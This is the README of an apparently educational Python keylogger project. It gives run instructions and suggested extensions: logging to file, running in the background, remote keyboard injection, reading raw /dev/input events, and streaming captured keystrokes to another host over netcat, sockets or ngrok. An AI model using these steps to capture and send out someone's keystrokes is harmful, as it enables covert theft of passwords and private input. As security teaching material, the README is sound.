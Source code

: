 # simple keylogger

Keyloggers are simple to build in Python with the 'keyboard' module!

<img src="kl_screenshot.png" width="50%" height="50%" />

## Running from fun_with_cybersec folder
* First, follow instructions [here](https://github.com/FrozenBurrito/fun_with_cybersec/blob/main/README.md) to setup virtual environment.
* Running on Linux
```
source .venv/bin/activate
python simple_keylogger.py
```
* Running on Windows
```
scripts\activate.bat
python simple_keylogger.py
```

## Extension Activities
### Modify simple_keylogger.py
* Save the output to file.  
* Add a keyboard shortcut to turn on/off keylogging.
* Stream output remotely or schedule data dumps 
  * Try using sockets or ngrok+flask
    
### Command line only extension activities
* Run in background using '&'.
* Try streaming the output with netcat.
  * Server, Keylogger (ex: 10.2.0.5):
  ```
  python simple_keylogger.py | nc -lkv 7777
  python -m keyboard | nc -lkv 7778
  ```
  * Client (ex: 10.2.0.6; or, use a browser):
  ```  
  nc -zv 10.2.0.5 7777
  nc -zv 10.2.0.5 7778
  ```
* Remote keyboard injection is also possible with the keyboard module.
* The keyboard module can also be used as a standalone python module (i.e., python -m keyboard).
* Consider: Can the simple_keylogger.py output be sent to a file using >>?  [Hint.](https://stackoverflow.com/questions/51199339/python-script-writes-no-output-when-stdout-is-redirected-to-a-file)

### On Linux, explore the /dev/input folder.  
Try:
```
ls -al /dev/input/by-id
sudo cat /dev/input/eventX | hexdump -C
```
Consider: How can we unpack the hexdump and determine which keys were pressed?  Hint:  See link below.
  
## Helpful Libraries and Links

* [keyboard module](https://github.com/boppreh/keyboard)
* [netcat man page](https://man7.org/linux/man-pages/man1/ncat.1.html)
* [ncat by nmap](https://nmap.org/ncat/guide/index.html)
* [Format of /dev/input/event struct](https://stackoverflow.com/questions/5060710/format-of-dev-input-event)
